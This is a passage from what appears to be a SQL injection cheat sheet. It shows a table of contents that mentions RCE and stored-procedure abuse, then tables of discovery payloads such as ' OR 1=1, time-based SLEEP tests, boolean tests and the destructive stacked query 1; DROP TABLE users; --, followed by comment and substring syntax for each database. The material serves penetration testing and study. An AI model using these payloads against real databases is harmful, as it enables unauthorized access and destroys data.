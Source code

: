 30. [Error Message Banners Enumeration (Non-Injection)](#error-message-banners-enumeration-non-injection)
31. [SQLite Specific Payloads](#sqlite-specific-payloads)
32. [Stored Procedure Abuse (MSSQL, MySQL)](#stored-procedure-abuse-mssql-mysql)
33. [PostgreSQL COPY Command with RCE](#postgresql-copy-command-with-rce)
34. [Tools & Automation](#tools--automation)
35. [Other Useful SQLi Tools](#other-useful-sqli-tools)
36. [Fuzzing & Detection](#fuzzing--detection)
37. [Manual Testing Helpers](#manual-testing-helpers)
38. [Bypass & Tampering Tools](#bypass--tampering-tools)
39. [Payload Repositories & Test Sets](#payload-repositories--test-sets)
40. [Practice Labs to Try](#practice-labs-to-try)
41. [Tips](#tips)

### **Initial Tests (Discovery Phase)**

| Action | Payload / Example | Notes |
| --- | --- | --- |
| Basic test for SQLi | `'` or `"` or `;--` | Look for errors or behavior change |
| Comment rest of query | `' --`  or `"#` or `' /*` | Comments vary by DB |
| Numeric test | `1 OR 1=1` | Works if param is numeric |
| String test | `' OR 'a'='a` | Tests injection into string context |
| Time-based test | `' OR SLEEP(5)--` | Useful in Blind SQLi |
| Boolean test | `' AND 1=1 --` vs `' AND 1=2 --` | Helps confirm Blind SQLi |
| Statement stacking | `1; DROP TABLE users; --` | Only in some DBs like MSSQL, PostgreSQL, not in MySQL by default |

### **Comment Syntax per DBMS**

| DBMS | Comment Syntax |
| --- | --- |
| MySQL | `--` , `#`, `/* */` |
| MSSQL | `--`, `/* */` |
| Oracle | `--`, `/* */` |
| PostgreSQL | `--`, `/* */` |
| SQLite | `--`, `/* */` |

Always add a **space** after `--` for MySQL.

### Substring Extraction

| DBMS | Syntax | Result for input `'foobar', 4, 2` → `ba` |
| --- | --- | --- |
| Oracle | `SUBSTR('foobar', 4, 2)` |  |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |  |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |  |
| MySQL | `SUBSTRING('foobar', 4, 2)` |  |
